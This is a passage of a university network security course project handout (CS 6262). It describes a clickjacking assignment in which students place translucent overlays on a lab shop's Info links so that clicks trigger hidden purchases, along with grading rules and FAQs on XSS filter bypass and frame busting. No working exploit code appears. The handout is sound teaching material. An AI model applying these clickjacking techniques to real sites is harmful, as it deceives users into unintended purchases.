<a href="https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage">https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage</a>. Since you need​&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; to position the overlay in your own HTML which doesn’t have any anchors or parent nodes related to the info button, you need to know the position offsets of each info button, such that you can reproduce them in your own HTML. HTMLElement.offset* attributes will help you get this information. However, you need to be careful to handle the case when the user scrolls down or up. You also need to update the position of the overlays.

<ul>
<li><strong>Put the overlays in the vulnerable page</strong>. You need to leverage the vulnerability to put​ some overlay onto the info button. Since the workspace is on the page where the info buttons reside, you can rely on the positions of the info button or its parent to put your overlay. <a href="https://www.w3schools.com/css/css_positioning.asp">https://www.w3schools.com/css/css_positioning.as</a><u>​&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; </u><a href="https://www.w3schools.com/css/css_positioning.asp">p</a> will be extremely useful to​&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; learn how to place overlay given the info button element. One suggestion is that you can work in the “console” to craft your malicious JS in a normal product page, i.e. by searching “a” in the original website.</li>
</ul>
&nbsp;

<h2>Instruction to Make a Purchase</h2>
By pressing “F12”, you will enter developer mode. Please go to the “Network” tab and clear the log. Check “Preserve log” if you want. Now, you can go to buy a product and see what network request it will make. Mimic the network request when you do purchasing in your clickjacking task.

&nbsp;

&nbsp;

<h2>Example of Successful Clickjacking Exploit</h2>
User visits clickjack.html, enters a into the text field, and clicks on the <strong>I’m Feeling Lucky</strong>​ button.​

&nbsp;

&nbsp;

&nbsp;

The user is directed to the search results page for the chosen query. For the project, each info link should have a <strong>translucent</strong>​&nbsp; overlay looking like the following image.​

&nbsp;

&nbsp;

User clicks anywhere on ​<strong>one or more Info links</strong>​ on a given search results page.

&nbsp;

Visiting the ​<strong>My products</strong>​ link shows that the user purchased the corresponding product(s).

&nbsp;

<h2>Quick Start Guide</h2>
You can find an Iframe_Clickjack_Quickstart_Guide in ​<strong><em>Canvas -&gt; Files -&gt; Guides and Tutorials. </em></strong>This is helpful in case you don’t have very much experience in iframes or Javascript.

<h2><strong>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Part 2 Grading </strong></h2>
Part 2.1 Open Redirect Requirements

<ul>
<li>Do not just give the URL of the product page.</li>
</ul>
<h3>Part 2.2 Clickjacking Requirements</h3>
<ul>
<li>Your exploit must work for the original version of Firefox provided in the VM.</li>
<li><strong>Displaying pop-ups that require user interaction</strong> will result in ​ <strong>zero credit.</strong>​</li>
<li>The iframe in your clickjacking page must be <strong>translucent as shown in the example</strong>​ , so​&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; that it is easier for us to grade. <strong>10</strong>​&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <strong> points will be deducted</strong>​ if overlays are nearly transparent or difficult to see.</li>
<li>In the real world, the attacker would make it transparent. But for grading purposes, we need to see it.</li>
<li><strong>After clicking on an overlay, the page should not be directed anywhere else. </strong></li>
<li><strong>We should be able to buy multiple distinct items at once without the page redirecting.</strong></li>
<li>Do not change the form id.</li>
<li>Do not change any code between the comment tags &lt;!– !!! DO NOT MODIFY ANYTHING</li>
</ul>
BELOW THIS COMMENT !!! –&gt; and &lt;!– !!! DO NOT MODIFY ANYTHING ABOVE THIS COMMENT !!! –&gt; in clickjack.html

<ul>
<li>Do not alter the appearance of the search form that is rendered by the clickjack.html that we have provided.</li>
<li>To test this, open the clickjack.html that we have provided in one browser tab and your clickjack.html in another tab. It should look exactly the same, <strong>pixel-by -pixel</strong>​ , if​ you switch between the two tabs.</li>
<li>Your exploit should not break the GTShop’s product search functionality.</li>
<li>Your exploit should not modify the appearance of the GTShop’s search results except for showing the translucent overlays.</li>
<li>To test this, perform a search using the GTShop site in one browser tab and then perform a search by using your clickjack.html in another tab. It should look identical, <strong>pixel-by-pixel</strong>, except for the translucent overlays.​</li>
<li>The user should <strong>NOT</strong>​ be redirected after being clickjacked. We will just click on some part​&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; of the blue Info link and expect a purchase to be made in the background.</li>
<li>You may not use any third party JavaScript libraries, except for JQuery. If using JQuery, you must include this one from the CDN: <a href="https://code.jquery.com/jquery-3.3.1.min.js">https://code.jquery.com/jquery-3.3.1.min.j</a><u>​ </u><a href="https://code.jquery.com/jquery-3.3.1.min.js">s</a><a href="https://code.jquery.com/jquery-3.3.1.min.js">.</a><u>​</u> JQuery has to be an external reference and that we won’t include a local copy in the autograder.</li>
<li>The domain gtshop.com is not the same as www.gtshop.com. The shop is located at www.gtshop.com</li>
<li>Each overlay must cover the Info link entirely. However, the width of your overlays should not exceed the Info link column.</li>
<li>Properly positioning your overlays for different search results is critical.</li>
<li>An overlay for one Info link should not collide with another overlay for another Info link.</li>
<li>We will perform multiple purchases of different products on a given search results page.</li>
<li>Each item can only be purchased once on the search results page.</li>
<li>We will perform multiple different queries, and your implementation must work for all of them. These queries will not be revealed until grading is done.</li>
</ul>
Points will be deducted if you don’t adhere to assumptions and requirements listed here.

<h3>Deliverables</h3>
<ul>
<li><strong>txt </strong></li>
<li><strong>html </strong></li>
</ul>
<h3>Rubric</h3>
You will earn credit as follows:

&nbsp;

<table width="566">
<tbody>
<tr>
<td width="76"><strong>Points </strong></td>
<td width="490"><strong>Milestone </strong></td>
</tr>
<tr>
<td width="76"><strong>10 </strong></td>
<td width="490">All components of the redirect URL are correct. See

<a href="https://www.ibm.com/support/knowledgecenter/en/SSGMCP_5.3.0/com.ibm.cics.ts.internet.doc/topics/dfhtl_uricomp.html">https://www.ibm.com/support/knowledgecenter/en/SSGMCP_5.3.0/com.i </a><a href="https://www.ibm.com/support/knowledgecenter/en/SSGMCP_5.3.0/com.ibm.cics.ts.internet.doc/topics/dfhtl_uricomp.html">bm.cics.ts.internet.doc/topics/dfhtl_uricomp.html</a>
</td>
</tr>
<tr>
<td width="76"><strong>5 </strong></td>
<td width="490">Search results are properly shown for the secret query strings that we test.

To test this, compare your query results to the original GTShop page.
</td>
</tr>
<tr>
<td width="76"><strong>25 </strong></td>
<td width="490">When the user clicks on the Info link of any item in the search results, he or she purchases the item that the Info link points to.

For example, if the Info link URL is detail?id=6, then Anger Reliever dart board is purchased.
</td>
</tr>
<tr>
<td width="76"><strong>10 </strong></td>
<td width="490">The correct number of overlays is displayed on the search results page for all secret queries that we test.

For example, if a query returns five products, then there should only be five overlays on top of the five Info links.
</td>
</tr>
</tbody>
</table>
&nbsp;

&nbsp;

<h2><strong>Verifying File Hashes </strong></h2>
You can verify that the skeleton files and VM were properly downloaded by comparing the resulting hash:

&nbsp;

<table width="597">
<tbody>
<tr>
<td width="151"><strong>OS </strong></td>
<td width="446"><strong>Command </strong></td>
</tr>
<tr>
<td width="151">Windows</td>
<td width="446">CertUtil -hashfile filename MD5</td>
</tr>
<tr>
<td width="151">Mac</td>
<td width="446">md5 filename</td>
</tr>
<tr>
<td width="151">Linux</td>
<td width="446">md5sum filename</td>
</tr>
</tbody>
</table>
<h2><strong>Academic Integrity </strong></h2>
All submitted code must be written by you. You may, however, borrow and cite examples from the papers related to this project.

&nbsp;

Borrowing or adapting code from other students and websites like Stack Overflow, code repositories, and other sources is strictly forbidden.

&nbsp;

You may not discuss specific approaches or solutions to the problems. Keep your discussions at a high level. Sharing code is strictly forbidden. Note that we monitor Piazza and Slack and will report you to the Office of Student Integrity if there is a violation.

&nbsp;

You may not share test cases with others.

&nbsp;

As a reminder, please review the <a href="https://policylibrary.gatech.edu/student-affairs/academic-honor-code">Georgia Tech Honor Cod</a>​&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <a href="https://policylibrary.gatech.edu/student-affairs/academic-honor-code">e</a> and the course policies outlined in the​&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; syllabus. If you are unsure about what is allowed or not allowed, please open a private Piazza post.

<h2><strong>Project Suggestions </strong></h2>
After the project you will be provided a Google Form for project suggestions. Good suggestions may be worth up to 1 percentage point of extra credit. An announcement will be made after the project and will be communicated via Piazza.

<strong>Project FAQs </strong>

<h3><strong>XSS FAQ </strong></h3>
<ul>
<li>If my XSS attack passes the regex filter, am I guaranteed to get full credits?
<ul>
<li>No, your XSS attack must be executable as well as pass the regex filter.</li>
</ul>
</li>
<li>Should we use ONLY the &lt;script&gt; tag in our XSS attack?
<ul>
<li>You can have whatever you like in between your script tags as long as it executes properly.</li>
</ul>
</li>
<li>Do we need to get an alert when entering our XSS in the XSS site?
<ul>
<li>No, we do not execute your code on the XSS server. This is why it’s imperative you test your code to ensure it’s executable before you submit.</li>
</ul>
</li>
<li>Does an XSS input have to pass all 3 filters?
<ul>
<li>No, an XSS input only has to pass its respective filter. For example, your 1st XSS attack need only pass the 1st filter and be executable, your 2nd XSS attack need only pass the 2nd filter and be executable, etc.</li>
</ul>
</li>
<li>Should the XSS attacks be carried out within the VM or they should also work on our host machine?
<ul>
<li>Please work inside the VM. The XSS website is only accessible from the VM.</li>
</ul>
</li>
</ul>
<h3><strong>Frame Busting FAQ </strong></h3>
<ul>
<li>Are you only testing the Chrome Extension in the provided VM? Or should this work anywhere/outside the VM?
<ul>
<li>We will be testing your Chrome Extension inside the provided VM. But realistically, your Chrome extension should work inside or outside the VM.</li>
</ul>
</li>
<li>Are you only testing the frame busting 20 times against this one page?
<ul>
<li>Not necessarily, your extension will need to work for any webpage that has the same vulnerability. Thus, any URL should not be hardcoded in your extension.</li>
</ul>
</li>
<li>Are we allowed to use an external website for our Frame Busting attack? For example, the 204-method requires us to employ a website that returns the 204 status code. ○ Yes, you’re allowed to use an external website.</li>
</ul>
<h3><strong>Clickjacking FAQ </strong></h3>
<ul>
<li>How will clickjacking be tested?
<ul>
<li>We will enter queries that should return multiple items, and then attempt to purchase multiple items. We will also enter in queries with extra characters and expect the correct results. For example, the query enhancer and eNhAnCeR%20 should return the exact same results.</li>
</ul>
</li>
<li>Should I redirect to a page after an item is purchased via an overlay?
<ul>
<li>No, no redirection should happen after an item is purchased via an overlay. Simply stay on the results page.</li>
</ul>
</li>
<li>Should items be purchasable only once?
<ul>
<li>If your overlay does not disappear after being clicked once, ensure that clicking the overlay again will not purchase the item again.</li>
</ul>
</li>
<li>Do overlays need to disappear after being clicked?
<ul>
<li>Not necessarily. Items should only be purchasable once. We recommend students to remove overlays once clicked to avoid items being purchased multiple times. However, if</li>
</ul>
</li>
</ul>
&nbsp;

GT​ CS 6262: Network Security

your overlays only purchase the item once even if clicked multiple times, then you will receive full credits.

&nbsp;
